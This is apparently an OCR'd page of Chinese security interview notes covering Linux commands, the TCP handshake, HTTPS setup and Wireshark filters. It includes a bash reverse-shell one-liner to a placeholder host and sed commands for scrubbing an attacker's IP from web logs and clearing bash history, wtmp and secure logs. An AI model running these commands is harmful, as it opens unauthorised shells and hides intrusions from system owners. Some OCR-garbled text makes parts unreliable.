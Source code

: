 ```bash
web ⽇志，如 apache 的 access.log,error.log。直接将⽇志清除过于明显, ⼀般使⽤ sed 进⾏定向清除
e.g. sed -i -e ‘/192.169.1.1/d’
history 命令的清除，也是对~/.bash_history 进⾏定向清除
wtmp ⽇志的清除，/var/log/wtmp
登录⽇志清除 /var/log/secure
```
** R、LINUX  **
```bash
查看当前端⼝连接的命令有哪些？netstat 和 ss 命令的区别和优缺点
netstat -antp` `ss -l
ss 的优势在于它能够显示更多更详细的有关 TCP 和连接状态的信息，⽽且⽐ netstat 更快速更⾼效。

反弹 shell 的常⽤命令？⼀般常反弹哪⼀种 shell？为什么?
bash -i>&/dev/tcp/x.x.x.x/4444 0>&1

通过 Linux 系统的 / proc ⽬录 ，能够获取到哪些信息，这些信息可以在安全上有哪些应⽤？
ls /proc
系统信息，硬件信息，内核版本，加载的模块，进程

linux 系统中，检测哪些配置⽂件的配置项，能够提升 SSH 的安全性。
/etc/ssh/sshd config iptables 配置

如何⼀条命令查看⽂件内容最后⼀百⾏
tail -n 100 filename
```
**S、 Windows  **
```bash
如何加固⼀个域环境下的 Windows 桌⾯⼯作环境？请给出你的思路。
```
**T、 TCP/IP  **
```bash
TCP 三次握⼿的过程以及对应的状态转换
（1）客户端向服务器端发送⼀个 SYN 包，包含客户端使⽤的端⼝号和初始序列号 x;
（2）服务器端收到客户端发送来的 SYN 包后，向客户端发送⼀个 SYN 和 ACK 都置位的 TCP 报⽂，包含确认号 xx1
和服务器端的初始序列号 y;
（3）客户端收到服务器端返回的 SYNSACK 报⽂后，向服务器端返回⼀个确认号为 yy1、序号为 xx1 的 ACK 报⽂，⼀
个标准的 TCP 连接完成。

TCP 和 UDP 协议区别
tcp ⾯向连接, udp ⾯向报⽂ tcp 对系统资源的要求多 udp 结构简单 tcp 保证数据完整性和顺序，udp 不保证

https 的建⽴过程
a、客户端发送请求到服务器端
b、服务器端返回证书和公开密钥，公开密钥作为证书的⼀部分⽽存在
c、客户端验证证书和公开密钥的有效性，如果有效，则⽣成共享密钥并使⽤公开密钥加密发送到服务器端
d、服务器端使⽤私有密钥解密数据，并使⽤收到的共享密钥加密数据，发送到客户端
e、客户端使⽤共享密钥解密数据
f SSL 加密建⽴f、SSL 加密建⽴
```
**U、流量分析**
```bash
过滤源 ip 地址: ip.src==1.1.1.1; , ⽬的 ip 地址: ip.dst==1.1.1.1;
过滤 80 端⼝: tcp.port==80 , 源端⼝: tcp.srcport==80 , ⽬的端⼝: tcp.dstport==80
协议过滤:直接输⼊协议名即可, 如 http 协议 http
http 模式过滤:过滤 get/post 包 http.request.mothod=="GET/POST"
```
